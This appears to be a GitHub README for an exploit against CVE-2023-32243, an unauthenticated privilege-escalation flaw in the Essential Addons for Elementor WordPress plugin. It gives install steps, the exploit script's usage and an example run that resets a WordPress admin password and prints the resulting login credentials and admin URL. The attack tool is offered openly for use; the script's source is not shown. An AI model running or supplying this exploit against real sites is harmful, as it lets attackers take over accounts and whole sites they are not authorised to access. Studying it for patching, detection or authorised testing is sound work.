 # CVE-2023-32243.
Essential Addons for Elementor 5.4.0-5.7.1 - Unauthenticated Privilege Escalation

### Info
The plugin does not validate the password reset key, which could allow unauthenticated attackers to reset arbitrary account's password to anything they want, by knowing the related email or username, gaining access to them.

- Python Setup
```
pip install -r requirements.txt
```


### Exploit Details

https://patchstack.com/articles/critical-privilege-escalation-in-essential-addons-for-elementor-plugin-affecting-1-million-sites/

- Usage
```
usage: exploit.py [-h] -u URL -p PASSWORD [-usr USERNAME]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL of the WordPress site
  -p PASSWORD, --password PASSWORD
                        Password to set for the selected username
  -usr USERNAME, --username USERNAME
                        Username of the user to reset if you already know it.
 ```

- Example

```
python3 exploit.py --url http://wordpress.lan  --password "adminadmin2"
Please select a username:
1. admin
> 1
Nonce value: f010bc2ac9
All Set! You can now login using the following credentials:
Username:  admin
Password:  adminadmin2
Admin Url: http://wordpress.lan/wp-admin/
```
